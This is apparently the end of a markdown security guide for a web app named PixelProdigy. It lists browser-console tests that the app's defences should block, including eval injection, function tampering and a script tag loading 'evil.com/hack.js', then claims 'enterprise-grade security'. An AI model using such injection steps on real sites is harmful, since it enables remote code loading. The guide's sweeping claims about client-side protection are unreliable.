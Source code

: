 
## 📊 TESTING CHECKLIST

### Test Your Protection:

1. **Try Console Injection:**
   ```javascript
   // In browser console:
   window.eval('alert("test")'); // ❌ Should be blocked
   ```

2. **Try Function Override:**
   ```javascript
   // In browser console:
   console.log = () => {}; // ❌ Should be blocked
   ```

3. **Try DevTools:**
   - Press F12 → ❌ Should be prevented
   - Press Ctrl+Shift+I → ❌ Should be prevented

4. **Check Integrity:**
   ```javascript
   // Modify a function
   syncToCloud = () => { return true; };
   // Try to call it
   syncToCloud(123); // ❌ Should detect tampering
   ```

5. **Inject Script Tag:**
   ```javascript
   const script = document.createElement('script');
   script.src = 'https://evil.com/hack.js';
   document.body.appendChild(script); // ❌ Should be removed
   ```

---

## 🎉 SUMMARY

**Your PixelProdigy HTML file is now hardened against:**
- Python memory hacking tools
- Console manipulation
- Code injection attacks
- Automated bot attacks
- Function tampering
- XSS vulnerabilities

**Combined with server-side validation (Phase 2), this creates enterprise-grade security!**

---

## 🛒 READY TO DEPLOY!

Your app is now protected. Time to:

1. ✅ **Buy pixel-prodigy.com** ($0.01)
2. ✅ **Deploy to GitHub Pages**
3. ✅ **Test all security layers**
4. ✅ **Start marketing!**

---

**Need Help?**  
Check `SECURITY_ARCHITECTURE.md` for full documentation.

**Report Vulnerabilities:**  
security@pixelprodigy.com (coming soon)
